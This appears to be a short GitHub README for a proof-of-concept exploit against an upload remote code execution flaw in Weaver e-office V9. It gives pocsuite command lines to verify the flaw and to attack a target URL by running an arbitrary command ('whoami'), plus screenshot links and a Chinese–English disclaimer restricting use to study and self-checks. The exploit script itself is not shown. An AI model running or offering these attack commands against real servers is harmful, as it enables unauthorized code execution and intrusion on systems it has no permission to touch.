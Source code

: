 # weaverOA_v9_ALL_upload_RCE

POC
pocsuite -r e-office_V9_upload_POC_RCE.py -u url --verify
![1650944925(1)](https://user-images.githubusercontent.com/54984589/165217112-9aaaaccf-934d-44cd-ab6a-691d66a737c0.png)


EXP 
pocsuite -r e-office_V9_upload_POC_RCE.py -u url --attack --command "whoami"
![1650944833(1)](https://user-images.githubusercontent.com/54984589/165216970-16d56c1e-3c2e-4062-8fbb-e400e2d74bc4.png)
# 免责声明
## 此工具仅用于学习、研究和自查。不应将其用于非法目的。使用本工具产生的一切风险与我无关！
# Disclaimer
## This tool is for study, research, and self-examination only. It should not be used for illegal purposes. All risks arising from the use of this tool have nothing to do with me!
